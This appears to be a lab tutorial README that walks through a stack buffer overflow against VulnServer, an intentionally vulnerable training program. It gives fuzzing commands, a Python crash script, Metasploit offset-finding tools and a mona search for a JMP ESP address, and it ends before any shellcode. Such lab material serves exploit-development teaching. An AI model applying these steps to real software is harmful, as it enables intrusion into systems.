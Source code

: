 # VulnServer 

We Need Two Virtual Machines Windows 10 , Kali . Download VulnServer [Here](https://thegreycorner.com/vulnserver.html)

In the Windows VM open Cmd go to `vulnserver` directory < Run `vulnserver.exe`.

In the Kali , write this command below < HELP
```sh
nc -nv 192.168.242.130 9999
```
Now we have to Find a Crash we do that by Fuzzing , we write a code in `test.spk`.

![alt text](testspk.png)

run the vulnserver < write a command in kali 

```sh
generic_send_tcp <windows vm ip> 9999 test.spk 0 0
```
We then Notice that it crashes after a bunch of inputs 

![alt text](spkcrash.png)

Now that we got a Crash , Its time to Analyse the Crash for that we use Immunity Debugger [Download](https://www.immunityinc.com/products/debugger/)

Open the Vulnserver.exe in Immunity Debugger.

To Recreate the Crash we write a Python Script : `exploit3.py`
We input 5000 A's so that it crashes the vulnserver

```python
#!/usr/bin/python
import os 
import sys 
import socket


host = "192.168.242.130"
port = 9999
buffer = "A" * 5000
s = socket.socket(socket.AF_INET , socket.SOCK_STREAM)
s.connect((host,port))
print s.recv(1024)
print ("sending exploit3")
s.send("TRUN /.:/" + buffer)
print s.recv(1024)
s.close()
```
Close your CMD in Windows and Open the Vulnserver.exe file in the Immunity Debugger.
When it loads up Press the Play button 

Then Go to your Kali Terminal and type this command below 
```sh
python2 exploit3.py
```
After running Press Ctrl + C 

Now Check your Immunity Debugger , You will see crash has happened like this 

![alt text](exp3_immunity.png)

We need to Identify Offset write command below in kali
```sh
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 5000
```
Input the pattern exactly as given in `exploit4.py` file.

Restart the Immunity Debugger by pressing `<<` this button and play it again.

Run your python file similar as you did for exploit3.py.Now again press Ctrl + C and check for crash in your Immunity debugger.

Note Down the RIP value we need it for calculating the Offset

![alt text](exp4_immunity.png)

In Kali write this command with value of RIP address 
```sh
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 5000 -q 386F4337
```
Offset = 2003
We now input 2003 - A , 4 - B , rest - C to check if B go into RIP

Write the next exploit as per `exploit5.py` , Restart your Immunity debugger - play it and Run your exploit5 script in kali . Now again check your immunity debugger  

We can see that RIP register is Overwritten with B's and we successfully hijacked it !

![alt text](exp5_immunity.png)

In your Immunity Debugger get the byte array for Bad character as per this image below 

![alt text](bad_char.png)

Put the Bad Characters in your script as per  `exploit6_bad.py` . restart the Immunity Debugger and run the script

You will notice that that "\x00" is bad character so we remove it , restart Immunity and run again ( I have already removed "\x00" in  `exploit6_bad.py` of repo)

It works Fine.

NOW WE NEED TO FIND THE JUMP ESP TO OVERWRITE THE RETURN ADDRESS TO VALUE POINTING TOWARDS OUR MEMORY 

type these commands in your Immunity Debugger 
```sh
!mona modules
```

```sh
!mona find -s "\xff\xe4" -m essfunc.dll
```
![alt text](jmp_esp.png)

You will see that best address we can use is 0x625011AF. Lets code it into our next exploit

Do note that while coding it we have to write it in Little Endian manner as per in `exploit7.py`




